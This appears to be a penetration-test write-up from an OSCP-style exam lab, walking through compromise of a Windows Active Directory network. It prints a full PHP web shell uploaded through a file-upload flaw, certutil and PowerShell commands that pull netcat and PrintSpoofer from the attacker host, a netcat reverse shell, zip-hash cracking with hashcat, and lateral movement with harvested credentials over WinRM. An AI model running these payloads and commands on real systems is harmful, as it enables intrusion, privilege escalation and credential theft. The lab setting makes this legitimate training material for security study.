# AD

```text-plain
Exteranl host - 192.168.121.101 (MS01)
Internal host - 172.16.121.102 (MS02)

DC - 172.16.121.100 (DC)
```

‍

# 192.168.121.101 (MS01)

Rustscan output



```text-plain
PORT      STATE SERVICE       REASON
21/tcp    open  ftp           syn-ack
80/tcp    open  http          syn-ack
135/tcp   open  msrpc         syn-ack
139/tcp   open  netbios-ssn   syn-ack
445/tcp   open  microsoft-ds  syn-ack
3389/tcp  open  ms-wbt-server syn-ack
5357/tcp  open  wsdapi        syn-ack
5985/tcp  open  wsman         syn-ack
8080/tcp  open  http-proxy    syn-ack
49669/tcp open  unknown       syn-ack
```

Nmap scan output:



#### Port 80

```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/offsec/exam/AD]
└─$ gobuster dir -u http://192.168.121.101 -w /usr/share/wordlists/dirb/big.txt -o dirb/192.168.121.101_80
```








```text-plain
Username : admin
Password : admin123
```




## Initial Access



[https://www.exploit-db.com/exploits/51779](https://www.exploit-db.com/exploits/51779)





Intercept the upload request



Send the post request to repeater



```text-plain
POST /webaccess/update_user.php?user_id=2 HTTP/1.1
Host: 192.168.121.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------28045307368374398462043640113
Content-Length: 5013
Origin: http://192.168.121.101
Connection: close
Referer: http://192.168.121.101/webaccess/update_user.php?user_id=2
Cookie: JSESSIONID.6f3c354e=node015foxjc2mbvdwr5ge1dbevt431.node0; PHPSESSID=22j04h596h8sff2rhkdo4tj4l9
Upgrade-Insecure-Requests: 1

-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="hidden_id"

2
-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="display_name"

John Doe
-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="username"

jdoe
-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="password"


-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="profile_picture"; filename="example.jpg"
Content-Type: image/jpeg

ÿØÿàJFIFHHÿáExifMM*ÿþCreated with The GIMPÿÛC	!"$"$ÿÛCÿÀ–È"ÿÄ	ÿÄ;		!1"AQ2#$3BCRa	&8Db…‘¡´ÿÄÿÄÿÚ?ã ›EËÈ-,}²ò[nTÞžôÍ)DKw¶Ÿ+â“5q/'­¼ê:%Ò{lbó&¯ëçz¦‡Óû”Ù	IìwÖhkí7	Jä¢2ûHõùÑ7IይÿöþՀýÇzaÓû›Üºw7)K„Í¿fljå×êc*"KmâQ©2Qšu¾DDe£eþ;cꎛê+:“’Žã6#ŒwSþdó"ä^KÉwéÂUM¿R-a-(•§Ö’R’J"ZʒfGàü‘x1‘—dywÑÌ;ŒžÖeŔ,ùPؗ1ÓuÔ²¨&ᣚ¶f\À¿B^f˜s«êU†7ƒâ¹²›e-©šëjó;D´…(Ýi¤ø#RŒÓ¢ýÓIþF­uSkI`ºûšÉµ³×8òØSN'ªTDd;?,Èrj©>®7M„d9%löª#Ø?¼¶¬ Ÿ¤B›SjA´­,ZýÒٗæ‰ú½©OÔj–&ß_[%úÒc¢ñÔ¹:n-Õzg–_¼¤¨Ö~vzQÏ[ EYô³ß
³'÷o|ôž»°Ÿhìv9ö»šåê¹}Üw®u±‰s‡å´µ­YÜâו°]×nLº÷Zi{øÒԒ#ÿȹúxí“LëÔõíØÙ7Õèʇ
ÍqñBI¡³Þ‹JV‹øó¯dy_E³¾Æ7Pð·Y•¹´W²Ôí|âqô袥i#I¡iJ¶’"ÑkÎÏAÏ]
éÔ®©õ&![Ð}§ž‘9¸‡!1P†Ô¢ZÒJN’kàšˆ¶´ü™‘ÏNºQ.Â~e7ªÈ(%Òá³²L=ã8댚I¾IuSFf²=hÌÓàËF%þˆ§¿êWm¹ŽÆfZ%ǐ”¸iKÉ8Ω(Qïq-™ÿy)?’!·ô.wRis~¢YgKÈӐÀ鵛ðÕ~N­âBmH4÷¶jo™/ZÚLù¨z¿Çr}QÓ}EgRrQÜ`¦ÄqŽê̞d\‹Éy!’Þ—¹Bwíâ·«¨$ó9é¯tã’^ç:ÿ]‹â» s.útÄîz‘k&áˆ]Rb™sÝ7\LFK Ö­™§Êø~^¹“Õ=V;&+þ ¬˜mò8ñ*XˆýìuJ~ÎɧEµ/GäÉ^@=@l]Mb<^¤äñ¢Ö»W›‰mµ	ÒI.2	å‘4®¤í%öŸ2ñà̼tfĶµ‡W:®%œØð,;~¶+O©-Ií«“}Äé|Tfe²=’@6ªÚÖ§Õû]œØ²2âJôÏ©¾û×6—Ä˒¢ÚOdz-{µ¯±û¹ÍöŸSêý}^Ÿ¿Ç‡w·¾<øý¼µ½xޅÔLZŠ§¡=,É«àöm¯½ßܤwV®ÿbRP×ÚfiO™—ÚE¿ÎÌo¿Wý"ÅðÛÜôö2˜¨ƒ!ºÛˆ]ç8R–Ò^m|œR•ÁÆÜ/&z%$Ëó £Y¶fÍûùYuûwR”¿`›ŠC¤’$‘)Î\”DDD[?‚"6–íg»ag6Lé'dHuN8³ýT¥™ÿoõ¯¥{úœ¸é¿M¨Ô†Pqý,^ú”–’¨:âÔãŠ3$‘©J3Qøø/Á¬Ã¡Ù5/;"…b9<:Þ'dšdËvën§‰ü·¯Ÿ‚3]·spÝ:i›µœŠÄÊ)‰†™&
A'‰<Hßçµ½xØË¿Ër¬‚+/²k«hñÏlµ6s¯¡¿ûIj2/ ¾ú±ÐLf¦FºìÏ
¬.ª¥«F‘t·dÎ}÷ɧgFmdd¶–K##Jx¶³$–¼øu»éÆWxâú)˜Ö”4:Å~Rå“ÊD§É&M¸hR{&ڗ­ñ2>'ðGàƒ¢I‘SR¢>ìy¬–Ó­,Ò´(¼‘‘—’2ýHMÎͳ9Ó_›7.¿•*DW>óÖO-Çb(ö¨êQ«fљ™ší3?°{M¯ót÷ßlÆ}§ö»Òzî½߿èùö»šãéxýÜw¾~u¡¸\}0õ
¶}­aÚb²­`1ꭏdg.{D‚Z—“A)I-šv¢Nԓ"ߍ…9îÖ¾Çì^ç7Ú}O«ô=õz~ÿÞÞøóãöòÖõãz•™ÖmYUí5¹ŽC
¿\}${7›g_§¨‹ÿCjͺ-•â˜JòÉSñû‘¤"5‹¶)ýkªøD„¤´…oƈÏFd+@KR–µ-j5)Gµ(Ïfgúð"JŸ:<1ž•.K©e†lÖã«Qé(JKʔfdDEäÌÀx÷ŸT	Ò ÎŒôYqS/°óf‡ZOJB’~R¢222?$d<Éè€[=O¶ª™ôíÑ긖p¤O¯÷¿[§Ò§cw%¡M÷G´rI–ȶ^HYyÿPñcú¬Íkl-aZ`ƒ묤ЇYF¢²MÉBÒfžLºF{ó­+ò9ÆûÈèˆýö?mTÔÒR¢¹6Œ¥òN¹
d\ˆ¹'zÞ¹ê"@u·S°Ú/­,ÊúE•EŽ?yPŠ´X’
t4)q#5¥³þ‘²Sf…¥'½‹Ç‘™”älS`ÙO¥ºúq¯eK*û¯Ó±’—=4IB‹©\|«iIè̏Clº›Xupm%ÖMùè¥:’Ԟڸ¹ÛY–—ÅFDz3Ñø0·Tj±ŒÿéæQ¨Ø­lj|jª‚Ò™*;‡»nºˆä[q('Mg£/µ
2ØÝza(º|™2óN¾âùVUï²¼z5£“ž˜•6¤¡¢aiþ‡É‘øý4~Ìr8͉Sk2®u¤Jɲ Wöýl¦˜RšÜWû‹"Ò9(Œ‹f[?Ì÷j¯æ{ì^çÝ¿”Wè{éõoáÝíï—_o-k~7±n_ŒûDK'<¢œñò.%gëÛô„^ÓÃ]Þ\?´û~{ÇÈä môÒæ¶?ÓÇX«gÚÄfÆÅTª‡é	KÒMÖ§
´í|RdjÑ‹ÉŠu!Ón˜`½_Áñkœ« .¡1e[6A"3j¬iãq·SÿÄæ¢ÒIe²Ú’fE䋗‡G#¬&µÍqî¦dø–LîoÈg=1d3èS<êHŒÉfá%$iFҝ¥$fe³0÷WHbf]FêŽi#&‘G_—Ï„Ü,n¸åϖù¾µ¨’Z4¡)I¤ÍJ-}Ä^?38×Gpg7Â2ù‘º‡ŠÆö=dJÛzæ¢ÍbϼÚØï’È’äU¤œäm–þÒ"3=‘j8¿^k`ßg5öÊ¢ã&E"î,š;ƒe
ǯÊUÅdh4’fiÚHüè‡æCÕì$ï1êìú©yŸ$…o)ìžè¤¨šaFjCL%]¾fGáfde­l‰Fcë˜PzãaI6ß«÷S.É2ë™e©ÆO¥öÐL׶“2i­†jY|6Ù|˜Ôó¾ŠSRu¦ð¡»’ÇÇ3YÍFì[Å(¶pÿ¬6ÓÈZM<IDN$Ò®:=ühÏߧÝiÆ)sާϱ”C«Í&¹&4úW[fÎ}CŽ¥)5+Šy„Jҏ÷|lxuG­µ7ÅÓ)t1²§áve¸å䲒äÈeÆMOr5-F–¾í¥$“>)Ù‰ é}þ¢õkzešba•3k–‡N:¸o'LÑ¥$Èþî$“3ø26í_³ŸKñë}7½Ûpôœy÷ýžÆùxáÝíóüðå¯:3:ÁÑè¶]AºÇñŒµ›lچÂ,—¥8Âۏ*N‹iJˆûJYš”£3QqI%:32º£[èô(f9eØ̝,ž$¥—ÍɍÈm-¨”f~¥m%£?õõKûü©ÞþÈ~Ó{·½Øûïºv=?¿ÿ-Ûû¸rîþÿpüìaôîƒÜzÕ;ß{º‰íÑýF,®&÷e)Ö×ôœ5ÉKŠŒÏÈÇë½ïNrŒ™Ì—”Ek.Lۆ­Íƒe¸´­%¶f®<Ýóÿ§_‘åƒæµT}ê..<ÕÏÉý³Ñ8Òm7é¤)×;†j#-¤ËZ%yù×ÈB/Gú?çô·ÙFXÅÆmC_*+QZaÆãJ’F\œQ¤²¥™%("5•£!#£ý?r›5Ç겛¹™æ_"ÂÄÕ´V¼˜ê"}¶¿Ä5 Ϗ%hŒþ_—ýP ŸÔ^’älóLL2¢šŠÚ	ÇW
ã[¦Ñô¤™ÛÈÒf$AAÕ
EêÖFô;5DÌê.aW!
 Üis%´n‘¯II}ÜMFGðFc¡ý&Â3º
Ö¬êJ®,œ['>®”©¯_qHA<ᑚ‹D•‘¤“ËFe£1‰t«©¢Êò~ªÜ[Ĩ¡¼V>Û­¶©2æ£f²I¹ö’R’ߟŸ>K^w|Cê­Ç°DÌo>‡?b,7ëªlÅ\¶ÛYsyĉN¸iÙð=%G¢Qëc	È«úŽÇRilpÏ#Äl²•ßÇse±®ú&ÍM™šO“i4™ù$ñ?‘C]ô7´>–1ÓÛû	眽aÊLô%)a¨ëIÿf’Ù-5’Ë’‰JAñ2#/óuÅ.Žm3ªÐ¯˜aÕƲ½ÇûSm&|	\Imõ¢5Ÿä¾ODy}hÊÿ’s诰Ѯ¢ÃfÂaÓÍ|œyä8”¤ŸR~q	pÕ¢ûT¥h¼×zãÓµ:«b¼ë·«Q›žÑûZi‚GóÀ%w¸þ7ò™IãÙö;-Rñû»:‰*O;RØY—èjA‘èF«K	ö³ÝŸi:LéÝ~KªqşêjQ™Ÿñ ?ÿÙ
-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="save_user"


-----------------------------28045307368374398462043640113--
```

```text-plain
POST /webaccess/update_user.php?user_id=2 HTTP/1.1
Host: 192.168.121.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------28045307368374398462043640113
Content-Length: 1176
Origin: http://192.168.121.101
Connection: close
Referer: http://192.168.121.101/webaccess/update_user.php?user_id=2
Cookie: JSESSIONID.6f3c354e=node015foxjc2mbvdwr5ge1dbevt431.node0; PHPSESSID=22j04h596h8sff2rhkdo4tj4l9
Upgrade-Insecure-Requests: 1

-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="hidden_id"

2
-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="display_name"

John Doe
-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="username"

jdoe
-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="password"


-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="profile_picture"; filename="simple-backdoor.php"
Content-Type: application/x-php

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

-----------------------------28045307368374398462043640113
Content-Disposition: form-data; name="save_user"


-----------------------------28045307368374398462043640113--
```





Now we start our listener

```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/Downloads/windows]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```





```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/offsec/exam/AD]
└─$ curl 'http://192.168.121.101/webaccess/user_images/1715699084simple-backdoor.php?cmd=certutil%20-urlcache%20-f%20http://192.168.49.121/nc64.exe%20c:/windows/tasks/nc.exe'
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>****  Online  ****
CertUtil: -URLCache command completed successfully.
</pre>                                                                                                                                                                                          
```







```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/offsec/exam/AD]
└─$ curl 'http://192.168.121.101/webaccess/user_images/1715699084simple-backdoor.php?cmd=c:/windows/tasks/nc.exe%20192.168.49.121%204444%20-e%20cmd.exe'
```



```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/offsec]
└─$ rlwrap -f . -r nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.49.121] from (UNKNOWN) [192.168.121.101] 63157
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp64\www\Clinic\webaccess\user_images>
```

```text-plain
C:\wamp64\www\Clinic\webaccess\user_images>whoami
whoami
ms01\a.hansen

C:\wamp64\www\Clinic\webaccess\user_images>type C:\Users\a.hansen\Desktop\local.txt
type C:\Users\a.hansen\Desktop\local.txt
b0e6590d9ddf92aec1a8d71d24271b70

C:\wamp64\www\Clinic\webaccess\user_images>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.121.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.121.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 172.16.121.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

C:\wamp64\www\Clinic\webaccess\user_images>
```



## Priv Esc

```text-plain
C:\wamp64\www\Clinic\webaccess\user_images>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\wamp64\www\Clinic\webaccess\user_images>
```



```text-plain
C:\wamp64\www\Clinic\webaccess\user_images>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\wamp64\www\Clinic\webaccess\user_images> cd C:/windows/tasks/
cd C:/windows/tasks/
PS C:\windows\tasks> iwr -uri 192.168.49.121/printspoofer64.exe -Outfile printspoofer.exe
iwr -uri 192.168.49.121/printspoofer64.exe -Outfile printspoofer.exe
PS C:\windows\tasks> ls
ls


    Directory: C:\windows\tasks


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/14/2024   9:21 AM          59392 nc.exe
-a----        5/14/2024   9:32 AM          27136 printspoofer.exe


PS C:\windows\tasks>
```





```text-plain
PS C:\windows\tasks> ./printspoofer.exe -i -c powershell.exe
./printspoofer.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32>
```



```text-plain
PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> type C:/Users/Administrator/Desktop/proof.txt
type C:/Users/Administrator/Desktop/proof.txt

PS C:\Windows\system32> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.121.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.121.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 172.16.121.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
PS C:\Windows\system32>
```

‍

## Post Enumeration

No low hanging fruits find through bloodhound or mimi



```text-plain
net use Z: \\192.168.45.198\MyShare /user:kali kali
```

```text-plain
C:\Users\a.hansen\Documents>copy sys.zip Z:\
copy sys.zip Z:\
        1 file(s) copied.
```



```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/Public]
└─$ ls
backup.zip  exam_20240514095831_BloodHound.zip  old-site.zip  sys.zip

┌──(kali㉿kali-192.168.49.121)-[~/Public]
└─$ zip2john sys.zip > sys.hash
ver 2.0 sys.zip/sys/ is not encrypted, or stored with non-handled compression type
ver 2.0 sys.zip/sys/cafeteria.xml PKZIP Encr: cmplen=356, decmplen=979, crc=2CC50C29 ts=1C98 cs=2cc5 type=8
ver 2.0 sys.zip/sys/medical-plants.xml PKZIP Encr: cmplen=1154, decmplen=6681, crc=812CFCCD ts=1C98 cs=812c type=8
ver 2.0 sys.zip/sys/nurses.csv PKZIP Encr: cmplen=241, decmplen=426, crc=00255DE5 ts=1C98 cs=0025 type=8
ver 2.0 sys.zip/sys/pharmacy.xml PKZIP Encr: cmplen=258, decmplen=627, crc=239152ED ts=1C98 cs=2391 type=8
ver 2.0 sys.zip/sys/web.config PKZIP Encr: cmplen=722, decmplen=2059, crc=87E0D96F ts=54D7 cs=87e0 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

┌──(kali㉿kali-192.168.49.121)-[~/Public]
└─$ cat sys.hash
sys.zip:$pkzip$5*1*1*0*8*24*2391*cb929c799fac2583e91a44eb1caf33d1c583234e9abe7946e092d3971dd226a2699fc92f*1*0*8*24*2cc5*ba7c6b26ab40d2ddbba8e1808b2708587ffc9be65faf25525569cb395cebe37fe4a1158f*1*0*8*24*87e0*b9964f75d67acc256b50088964485d01039221731c98eab4778ca8263c406987916a1386*1*0*8*24*812c*faaf66a06db9cd8597b1420fd7bcd9a07943a95fbaf40e2e2e7763a631a32d88d5ae9bb3*2*0*f1*1aa*255de5*66b*2c*8*f1*0025*e8c375cceeb1a527905f38698d9c5802de5399b42ca412b94c54146b1a42e9dcb0f12d061c6b50ef494196eb816bdadff7aa996e73cbfdba78702d383e54911f940c196999ff65834d09dd39d17406fd680f02ccb90e8adf83f0777232bafa8f3ae15dae534a408c06af3cb20bf23602d6d8bc76e5c1556d7e48f916d5f4079efa60f2615e128de0f9f35dbd68651cd799eb9f77af6e55af0f6ed1c67d6ca80480b369ce67c10a540cd1f1f9a698b1f82f5fdf20ae64ab49246ff342b8bc4755d8f5709b55340b9c9b9eabb0e06b58373ffbc08528af1b809497d67c7c1917aa2f48b003e6ff99a19da22d4fb4ce1392fa*$/pkzip$::sys.zip:sys/nurses.csv, sys/pharmacy.xml, sys/cafeteria.xml, sys/web.config, sys/medical-plants.xml:sys.zip
```



```text-plain
$ echo -n `$pkzip$5*1*1*0*8*24*2391*cb929c799fac2583e91a44eb1caf33d1c583234e9abe7946e092d3971dd226a2699fc92f*1*0*8*24*2cc5*ba7c6b26ab40d2ddbba8e1808b2708587ffc9be65faf25525569cb395cebe37fe4a1158f*1*0*8*24*87e0*b9964f75d67acc256b50088964485d01039221731c98eab4778ca8263c406987916a1386*1*0*8*24*812c*faaf66a06db9cd8597b1420fd7bcd9a07943a95fbaf40e2e2e7763a631a32d88d5ae9bb3*2*0*f1*1aa*255de5*66b*2c*8*f1*0025*e8c375cceeb1a527905f38698d9c5802de5399b42ca412b94c54146b1a42e9dcb0f12d061c6b50ef494196eb816bdadff7aa996e73cbfdba78702d383e54911f940c196999ff65834d09dd39d17406fd680f02ccb90e8adf83f0777232bafa8f3ae15dae534a408c06af3cb20bf23602d6d8bc76e5c1556d7e48f916d5f4079efa60f2615e128de0f9f35dbd68651cd799eb9f77af6e55af0f6ed1c67d6ca80480b369ce67c10a540cd1f1f9a698b1f82f5fdf20ae64ab49246ff342b8bc4755d8f5709b55340b9c9b9eabb0e06b58373ffbc08528af1b809497d67c7c1917aa2f48b003e6ff99a19da22d4fb4ce1392fa*$/pkzip$` > sys-filterd.hash
```

```text-plain
┌──(kali㉿kali)-[~/hashes]
└─$ hashcat -m 17225 sys.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-DO-Premium-AMD, 2919/5902 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$pkzip$5*1*1*0*8*24*2391*cb929c799fac2583e91a44eb1caf33d1c583234e9abe7946e092d3971dd226a2699fc92f*1*0*8*24*2cc5*ba7c6b26ab40d2ddbba8e1808b2708587ffc9be65faf25525569cb395cebe37fe4a1158f*1*0*8*24*87e0*b9964f75d67acc256b50088964485d01039221731c98eab4778ca8263c406987916a1386*1*0*8*24*812c*faaf66a06db9cd8597b1420fd7bcd9a07943a95fbaf40e2e2e7763a631a32d88d5ae9bb3*2*0*f1*1aa*255de5*66b*2c*8*f1*0025*e8c375cceeb1a527905f38698d9c5802de5399b42ca412b94c54146b1a42e9dcb0f12d061c6b50ef494196eb816bdadff7aa996e73cbfdba78702d383e54911f940c196999ff65834d09dd39d17406fd680f02ccb90e8adf83f0777232bafa8f3ae15dae534a408c06af3cb20bf23602d6d8bc76e5c1556d7e48f916d5f4079efa60f2615e128de0f9f35dbd68651cd799eb9f77af6e55af0f6ed1c67d6ca80480b369ce67c10a540cd1f1f9a698b1f82f5fdf20ae64ab49246ff342b8bc4755d8f5709b55340b9c9b9eabb0e06b58373ffbc08528af1b809497d67c7c1917aa2f48b003e6ff99a19da22d4fb4ce1392fa*$/pkzip$:hospital6575
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 17225 (PKZIP (Mixed Multi-File))
Hash.Target......: $pkzip$5*1*1*0*8*24*2391*cb929c799fac2583e91a44eb1c...pkzip$
Time.Started.....: Thu May 30 05:07:48 2024 (1 sec)
Time.Estimated...: Thu May 30 05:07:49 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1359.0 kH/s (1.04ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 651264/14344385 (4.54%)
Rejected.........: 0/651264 (0.00%)
Restore.Point....: 649216/14344385 (4.53%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: ihearthim. -> hondasp2
```



```text-plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <system.webServer>
    <handlers>
      <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModule" resourceType="Unspecified" />
    </handlers>
    <aspNetCore processPath="dotnet" arguments=".\Microsoft.IIS.Administration.dll" forwardWindowsAuthToken="true" stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" />
    <appSettings>
    <add key="ApiURL" value="https://...../servlets/AssetServlet" />
    <add key="ApiUserName" value="rudi.davis" />
    <add key="ApiPassword" value="SysAdmin4Life!" /> 
```



```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/Public/sys]
└─$ NetExec winrm 172.16.121.102 -u rudi.davis -p "SysAdmin4Life\!" --continue-on-success
WINRM       172.16.121.102  5985   MS02             [*] Windows 10 / Server 2019 Build 17763 (name:MS02) (domain:oscp.exam)
WINRM       172.16.121.102  5985   MS02             [+] oscp.exam\rudi.davis:SysAdmin4Life! (Pwn3d!)
```





```text-plain
┌──(kali㉿kali-192.168.49.121)-[~/Public/sys]
└─$ evil-winrm -i 172.16.121.102 -u rudi.davis -p "SysAdmin4Life\!"

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\rudi.davis\Documents>
*Evil-WinRM* PS C:\Users\rudi.davis\Documents>
```

```text-plain
*Evil-WinRM* PS C:\Users\rudi.davis\Documents> whoami
oscp\rudi.davis
*Evil-WinRM* PS C:\Users\rudi.davis\Documents> type C:/Users/rudi.davis/Desktop/local.txt

*Evil-WinRM* PS C:\Users\rudi.davis\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 172.16.121.102
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.121.254
```
